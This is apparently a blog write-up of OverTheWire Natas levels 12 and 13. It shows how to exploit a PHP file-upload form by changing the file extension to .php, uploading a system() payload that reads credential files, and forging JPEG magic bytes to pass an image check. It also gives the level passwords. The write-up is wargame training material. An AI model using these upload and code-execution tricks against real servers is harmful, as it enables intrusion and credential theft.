 ```yaml
---
layout: post
title: "OverTheWire: Natas 12"
date: 2016-11-02 12:00:00
share: true
comments: true
---
```


## Natas 12

In this level you're able to upload a JPG file with max size 1KB. Let's check the sourcecode.

```php
<?   
  
function genRandomString() {  
    $length = 10;  
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";  
    $string = "";      
  
    for ($p = 0; $p < $length; $p++) {  
        $string .= $characters[mt_rand(0, strlen($characters)-1)];  
    }  
  
    return $string;  
}  
  
function makeRandomPath($dir, $ext) {  
    do {  
    $path = $dir."/".genRandomString().".".$ext;  
    } while(file_exists($path));  
    return $path;  
}  
  
function makeRandomPathFromFilename($dir, $fn) {  
    $ext = pathinfo($fn, PATHINFO_EXTENSION);  
    return makeRandomPath($dir, $ext);  
}  
  
if(array_key_exists("filename", $_POST)) {  
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);  
  
  
        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {  
        echo "File is too big";  
    } else {  
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {  
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";  
        } else{  
            echo "There was an error uploading the file, please try again!";  
        }  
    }  
} else {  
?>  
  
<form enctype="multipart/form-data" action="index.php" method="POST">  
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />  
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />  
Choose a JPEG to upload (max 1KB):<br/>  
<input name="uploadedfile" type="file" /><br />  
<input type="submit" value="Upload File" />  
</form>  
<? } ?>   
```

Following the logical code flow:  

  * *Line 43*: An upload form is generated, it contains 4 input tags:
    1. `MAX_FILE_SIZE`: Kind of [useless ](http://stackoverflow.com/questions/1381364/max-file-size-in-php-whats-the-point)since it's not really supported. 
    2. `filename`: This an autogenerated 10-characters long string with _hardcoded _.jpg extension. 
    3. `uploadfile`: The file you'll be uploading
    4. Submit button.

  * *Line 27* : If the POST request contains `filename`  (submitted through the upload form), it generated a NEW random string to use as file name, *yet the existing extension is kept*. A couple of checks are done to verify it's a valid JPG. First, it checks if the file size is less than 1KB. If it's bigger than 1KB, an error message is displayed.
  * Otherwise, the file is uploaded and stored under upload directory with format **randomstring.ext**, where ext is the extension provided in input tag (filename)

If we change the extension of filename tag from JPG to PHP, we may be able to
execute code remotely.  
  

#### 1\. Create a fake JPG containing php code

We'll be using [`system()`](http://php.net/manual/en/function.system.php) to read our password.  
  
```console
root@kali: ~/Desktop# echo "<?php echo system(\"cat /etc/natas_webpass/natas13\"); ?>" > natas12.jpg  
root@kali: ~/Desktop# cat natas12.jpg  
<?php echo system("cat /etc/natas_webpass/natas13"); ?>"  
``` 

#### 2\. Upload JPG and get password

```html
<input name="filename" value="o0xn5q93si.jpg" type="hidden">  
```
is changed to  
```html
<input name="filename" value="o0xn5q93si.php" type="hidden">  
```    
  
You don't need to change the entire file name, since it won't be used anyway, what matters is changing JPG to PHP, this way it will be reused in `makeRandomPathFromFilename` function.  
  
![10]({{ site.baseurl}}/images/10.png)
  
The link generated does contain `.php` extension! Open it and you'll find your password.  
  
*Password:* jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

_________________________________  

## Natas 13

You'll notice that this challenge is very similar to Natas 12, the only added verification is this condition:  
  
```php
<?php  
...  
  
else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {  
        echo "File is not an image";  
    }  
  
...  
  
?>  
```    

  
This will make our fake JPG fail to be validated as valid. If you run file on it, it's also not validated as JPEG!  
  
```console
root@kali: ~/Desktop# file natas12.jpg  
natas12.jpp: PHP script, ASCII text  
root@kali: ~/Desktop#   
```
  
In this case, we need to know how files' types are recognized, after some research you'll stumble upon something called [file signatures/magicnumbers.](https://en.wikipedia.org/wiki/List_of_file_signatures). A JPG  file contains the following HEX signature: `FF D8 FF DB`.
  
_____________________________________

### 1\. Generate a fake JPG with valid signature

Easiest approach is create a new file with jpg extension then use hexeditor to add the JPG signature.

```console
root@kali:~/Desktop# echo "<?php echo system("/etc/natas_webpass/natas14"); ?>" > file.jpg  
root@kali:~/Desktop# hexeditor -b file.jpg  
```

Next, we start hexeditor in buffer mode to allow us to insert null bytes, we need 4 of these. CTRL+A will do. 

![11]({{ site.baseurl}}/images/11.png)

![12]({{ site.baseurl}}/images/12.png)

![13]({{ site.baseurl}}/images/13.png)

Hit CTRL+X to save and exit

_____________________________________

### 2\. Upload JPG and get password

This is the same step as earlier.

**Password:** `Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1`